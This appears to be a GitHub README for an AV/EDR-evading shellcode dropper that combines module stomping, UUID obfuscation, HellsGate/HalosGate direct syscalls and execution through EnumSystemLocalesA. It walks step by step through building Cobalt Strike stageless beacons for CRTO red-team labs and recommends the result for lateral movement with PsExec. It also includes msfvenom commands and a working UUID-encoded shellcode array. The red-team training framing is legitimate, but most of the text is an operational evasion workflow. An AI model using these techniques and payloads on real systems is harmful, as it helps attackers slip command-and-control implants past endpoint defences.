# Ninja UUID Shellcode Runner
Module Stomping, No New Thread, HellsGate syscaller, UUID Shellcode Runner for x64 Windows 10!
+ Now supports running Cobalt Strike stageless beacon payloads!
+ Walkthrough of how to use in [Zero-Point Security Certified Red Team Operator (CRTO)](https://www.zeropointsecurity.co.uk/red-team-ops/overview) labs below!


#### Created by [Bobby Cooke (@0xBoku)](https://twitter.com/0xBoku) with [Matt Kingstone(@n00bRage)](https://twitter.com/n00bRage)

## Update - Cobalt Strike Stageless Beacon Support (11/4/21)
This was tested in the [new Certified Red Team Operator course labs](https://www.zeropointsecurity.co.uk/red-team-ops/overview) which now offers Cobalt Strike access out-of-the-box. If you are interested in digging deeper into Cobalt Strike, I definitely recommend getting your hands dirty with this course!

Since the CRTO labs have Cobalt Strike, for security reasons they are not connected to the public internet. Another hurdle is we cannot copy entire files to and from our CRTO lab. What we can do, is copy-paste text from our host to the the CRTO lab. Since I think these labs are awesome, this walkthrough shows how to get this project working in the CRTO lab environment!

### Cobalt Strike Stageless Beacon Walkthrough

1. Start your Cobalt Strike `teamserver` & the `cobaltstrike` gui on the Kali-Attacker box
+ In the CRTO labs, `cobaltstrike` is located in the `/opt/` directory, but this may differ based on your installation.
```bash
root@kali:/opt/cobaltstrike# ifconfig
eth0: inet 10.10.5.120 
# Start the teamserver with the password myPassword123
root@kali:/opt/cobaltstrike# ./teamserver 10.10.5.120 myPassword123
# Launch the cobaltstrike GUI and connect to it with any username and the password above
root@kali:/opt/cobaltstrike# ./cobaltstrike
```
##### Screenshot of starting & connecting to the teamserver from the CRTO Kali-Attacker box


2. Create a Listener that our stageless beacon payload will connect to, when it is executed on the windows host  
+ From the CobaltStrike GUI, click `Cobalt Strike` from the menu bar, and then select `Listeners`
+ This will display the active listeners in a table, on the bottom half of the CS GUI



+ From the listeners table, click the `Add` button. A listener window will popup
+ Select your beacon type, such as `BeaconHTTP` used in this example
+ Give it a name, such as `http` used here
+ For the `HTTP Hosts`, click the `+` button and add the teamservers IP
+ When the beacon listener is the way you want it, click `Save`



3. Create a 64-bit Stageless Cobalt Strike beacon shellcode payload
+ From the CobaltStrike GUI, click `Attacks` from the menu bar, then `Packages`, and select `Windows Executable (S)`
  + The `(S)` means that the payload will be Stageless. A Stageless payload has the entire beacon in it, while the Staged version only has a small stub that calls out to the teamserver and then loads the rest of the beacon.
  + The Staged loader used in Cobalt Strike is flagged. A Staged payload will likely be detected. 



+ Select the `http` listener we just created.
+ Change the `Output:` to `Raw`
  + The `Raw` payload will save our Stageless Beacon as pure shellcode.
  + Since the Cobalt Strike Beacon uses the Reflective DLL Loading technique, the shellcode will execute the beacon when it is ran on an Intel x64 processor within a Windows OS.



4. Switch to the Windows host and prepare the UUID runner to run our Beacon payload.
+ Open Visual Studios, and create a blank C++ project.
+ Within the new project, right-click the `Source-File` folder and click `Add`


+ Select `C++ File (.cpp)` and change the name to `main.c`



+ Do this again and create the file `functions.asm`

+ At this point we will have 2 files in our project. 
+ Copy the code in `main.c` of this repo to the `main.c` file we just created in Visual Studios on our Windows-Attacker box within the CRTO labs.
+ Copy the code in `functions.asm` of this repo to the `functions.asm` file on our Windows-Attacker box.



+ In the VS Solution Explorer, select the Project.
+ Now select Project from the VS menu, and then `Build Customizations...`



+ From the `Build Customizations` popup window, check `masm(targets, .props)`. This allows us to use Assembly in our VS project.


+ Now that Assembly is enabled in our project, we need to tell Visual Studios that our `functions.asm` file is an Assembly file, and to include it in our build.
+ From the Solution Explorer, right-click our `functions.asm` file and click `Properties`



+ In the Properties popup go to `Configuration Properties` -> `General`, and set the `Item Type` to `Microsoft Macro Assembler`. Then click `OK` to apply our changes.



+ Sometimes VS Optimization does not play well when creating projects with Assembly. For this reason we will disable optimization.
  + Select the project from the Solution Explorer.
  + Select `Project` from the main menu, and from the drop-down select `<ProjectName> Properties`
  + In the project Properties popup, select `Configuration Properties` -> `Advanced`
  + Change `Whole Program Optimization` to `No Whole Program Optimization`
  + Click `OK` to save changes



5. Switch back to the Kali-Attacker box, convert `beacon.bin` to an array of UUIDs. and transfer `beacon-uuids.txt` to our Windows-Attacker Box
+ Copy the `bin2uuid.py` python3 script from this repo to the Kali-Attacker box.
+ Use the `bin2uuids.py` script to convert the `beacon.bin` payload into a C style array of UUIDs.
+ Run the script and have it output to the `beacon-uuids.txt` text file.
```bash
root@kali:~# python3 bin2uuids.py beacon.bin > beacon-uuids.txt
```
+ Transfer the `beacon-uuids.txt` text file from the Kali-Attacker box to the Windows-Attacker box.
  + There are multiple ways to do this. One way is:
    + Open Cobalt Strike on the Windows-Attacker Box
    + Connect to the teamserver we have running on Kali-Attacker
    + Create a Beacon as above, but instead of `Raw` select `Windows EXE`
    + This will save the beacon to the Windows-Attacker file system
    + Execute the beacon, and switch to Kali-Attacker
    + Interact with the beacon from Kali-Attacker, and upload the text file with `upload /root/beacon-uuids.txt`

##### Transferring `beacon-uuids.txt` file with Cobalt Strike


6. Compile Ninja_UUID_Runner with our Cobalt Strike Stageless Beacon payload
+ Now that our UUID encoded beacon paylaod is transferred to our Windows-Attacker box, open the `beacon-uuids.txt` with Notepad
+ Select all the text and copy it



+ Open `main.c` from our uuid project with Visual Studios.
+ Highlight the default `CHAR* uuid[]` payload, and paste our new Cobalt Strike Stageless Beacon payload.



+ Now that our project has our beacon baked-in, click the green play-button in Visual Studios, and get a beacon on the windows-attacker box!



+ By looking at the Output window in Visual Studios, we can see that our payload is saved to `C:\Users\Administrator\source\repos\uuid\x64\Release\uuid.exe`



+ We can now use this as our beacon payload when we need to move laterally by first uploading a beacon file and then executing it with something like `PSExec`! 

## About
Shellcode is typically loaded into the `Heap` of the process, or the `VirtualAlloc()` API is used to reserve a private section of memory where the shellcode is then loaded too. Regardless of where the shellcode is in memory, that allocated memory must be marked executable for the shellcode to run. This is typically done by calling the `VirtualProtect()` API, after the shellcode has been written to memory, to change the allocated memory from `RW` (Read-Write) to `RX` (Read-Execute). `RX` sections within modules are common, such as the executable `.TEXT` section of the host process, and the executable `.TEXT` section of a Dynamically Loaded Library (DLL) which has been loaded into the memory of the process. Although, `RX` or `RWX` executable memory sections within the Heap and Privately allocated sections, not backed by a module are suspicious, and easier to detect. To evade this detection, Module Stomping can be used.

Module Stomping is where the malware will load a DLL into the processes memory using the `LoadLibrary()` API, change the permissions of the loaded libraries memory to `RW` (writable), overwrite the DLL memory with the shellcode, change the module-backed memory back to `RX` (executable), and then execute the shellcode from the DLL memory. When the memory is scanned, the shellcode will appear to be just the executable code from the loaded DLL. Therefor this may evade some AV/EDR dynamic memory scanners.

Sektor7 does a better job of explaining it, and I recommend you check out there courses if you'd like to dive deeper: [institute.sektor7.net](https://institute.sektor7.net/)

This dropper uses the Module Stomping technique described above, in combination with these techniques:
+ UUID Obfuscation of the shellcode payload. 
  + The UUID payload helps to decrease the shellcodes entropy, which can help evade some detection methods. 
  + This method also helps prevent some in-memory detections which flag on signatures.
+ Crawl the in-memory list of loaded modules to discover the base addresses of `ntdll.dll` and `kernel32.dll`.
+ Resolve `NTAPI` & `WINAPI` APIs by using a custom implementation of `GetProcAddress()` written in Assembly.
+ HellGate technique to resolve the Windows System Calls dynamically by reading the memory of `ntdll.dll`.
+ HalosGate technique to resolve the Windows System Calls if `ntdll.dll` is hooked by AV/EDR.
+ Direct Syscalls to changes the memory protection of the DLL which will host the shellcode.
+ "No New Thread" technique which uses `EnumSystemLocalesA()` to execute the UUID decoded shellcode.


## Walkthrough Example with MSF PopCalc
+ First you will need a raw binary file that contains your shellcode.
+ For this example we will use MetaSploit's MSFVenom to create a simple "Pop Calc" shellcode for x64 Windows 10.
  + This shellcode was created from a Kali Linux virtual machine. 
### MSFVenom PopCalc Shellcode Creation
```bash
┌──(bobby.cooke@0xBoku)-[~]
└─$ msfvenom -p windows/x64/exec CMD=calc.exe -f raw -o calc.bin
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 276 bytes
Saved as: calc.bin
```

### Raw Shellcode File to UUIDs
+ Now that we have our raw shellcode file `calc.bin` we will use the `bin2uuid.py` python3 script to convert our shellcode into an array of UUIDs.
+ For large shellcodes, I recommend piping the output from the python script to a file. Then transfer the file over to your windows workstation where you will be compiling the dropper with windows Visual Studios.
```bash
┌──(bobby.cooke@0xBoku)-[~]
└─$ python3 bin2uuid.py calc.bin
    const char* uuids[] =
    {
        "e48348fc-e8f0-00c0-0000-415141505251",
        "d2314856-4865-528b-6048-8b5218488b52",
        "728b4820-4850-b70f-4a4a-4d31c94831c0",
        "7c613cac-2c02-4120-c1c9-0d4101c1e2ed",
        "48514152-528b-8b20-423c-4801d08b8088",
        "48000000-c085-6774-4801-d0508b481844",
        "4920408b-d001-56e3-48ff-c9418b348848",
        "314dd601-48c9-c031-ac41-c1c90d4101c1",
        "f175e038-034c-244c-0845-39d175d85844",
        "4924408b-d001-4166-8b0c-48448b401c49",
        "8b41d001-8804-0148-d041-5841585e595a",
        "59415841-5a41-8348-ec20-4152ffe05841",
        "8b485a59-e912-ff57-ffff-5d48ba010000",
        "00000000-4800-8d8d-0101-000041ba318b",
        "d5ff876f-f0bb-a2b5-5641-baa695bd9dff",
        "c48348d5-3c28-7c06-0a80-fbe07505bb47",
        "6a6f7213-5900-8941-daff-d563616c632e",
        "00657865-9090-9090-9090-909090909090"
    };
```

### Copy UUID Shellcode to `main.c`
+ Copy the array of UUIDs to your windows workstation either via the copy-paste buffer or a file.
+ Open this project in Microsoft Visual Studios.
+ Within the `main.c` file, replace the `uuids[]` array with your array of UUIDs.

### Optionally Change Sacrificial DLL
+ You may optionally change the sacrificial DLL that has its `RX` section module stomped by our shellcode by changing the `sLib[]` array to a name of a different DLL.
+ Make sure that the DLL is large enough to hold your shellcode or else you may end up overwriting a neighbor DLL in memory of the process.
+  Use the `string2array.py` python script to convert the DLL name into an array of chars. 
  +  Alternatively just use a typical string method since we are not creating a Beacon Object File (BOF) or shellcode.
```bash
┌──(bobby.cooke@0xBoku)-[~]
└─$ python3 string2array.py sLib mshtml.dll
CHAR sLib[] = {'m','s','h','t','m','l','.','d','l','l',0};
```
+ Replace the `CHAR sLib[]` array in `main.c` with the newly generated one.

### Compile with Visual Studios
+ Once you have made your changes, compile the EXE with Visual Studios
+ If you are using the example provided, a calculator should popup when you press the green play button within Visual Studios.

## Credits / References
+ [Stephan Borosh (rvrsh3ll|@424f424f)](https://twitter.com/424f424f) & [Matt Kingstone](https://twitter.com/n00bRage) for showing me the awesome UUID shellcode loading technique.
+ [ajpc500/binToUUIDs.py](https://gist.github.com/ajpc500/a9695eca6a660d1fb5ec30a2e356f33e)
+ [Secure Hat - Shellcode Execution via EnumSystemLocalA](https://blog.securehat.co.uk/process-injection/shellcode-execution-via-enumsystemlocala)
### Implementing ASM in Visual Studio C Projects
+ [bs - Implementing Syscalls In The Cobaltstrike Artifact Kit](https://br-sn.github.io/Implementing-Syscalls-In-The-CobaltStrike-Artifact-Kit/)
### HalosGate SysCaller
+ [Reenz0h from @SEKTOR7net](https://twitter.com/SEKTOR7net)
  + Most of the C techniques I use are from [Reenz0h's awesome Sektor7 courses](https://institute.sektor7.net/) & blogs 
  + [Sektor7 HalosGate Blog](https://blog.sektor7.net/#!res/2021/halosgate.md)
### HellsGate Syscaller
+ [@smelly__vx](https://twitter.com/smelly__vx) & [@am0nsec](https://twitter.com/am0nsec) ( Creators/Publishers of the Hells Gate technique )
  + [HellsGate Github Repo](https://github.com/am0nsec/HellsGate)
  + Link to the [Hell's Gate paper: https://vxug.fakedoma.in/papers/VXUG/Exclusive/HellsGate.pdf](https://vxug.fakedoma.in/papers/VXUG/Exclusive/HellsGate.pdf)
### Great Resource for learning Intel ASM - [Vivek Ramachandran (@vivekramac)](https://twitter.com/vivekramac)
+ [Pentester Academy - SLAE64](https://www.pentesteracademy.com/course?id=7)

## Other Projects/References that use the UUID Shellcode Loading Technique
+ [byt3bl33d3r/OffensiveNim](https://github.com/byt3bl33d3r/OffensiveNim/blob/2cb5f8b4691ee430fbfad084d3cb863a0ca2f0b7/src/uuid_exec_bin.nim)
+ https://research.nccgroup.com/2021/01/23/rift-analysing-a-lazarus-shellcode-execution-method/
+ https://blog.sunggwanchoi.com/eng-uuid-shellcode-execution/
+ https://gist.github.com/rxwx/c5e0e5bba8c272eb6daa587115ae0014#file-uuid-c
+ [Adepts of 0xCC - One thousand and one ways to copy your shellcode to memory (VBA Macros)](https://adepts.of0x.cc/alternatives-copy-shellcode/)
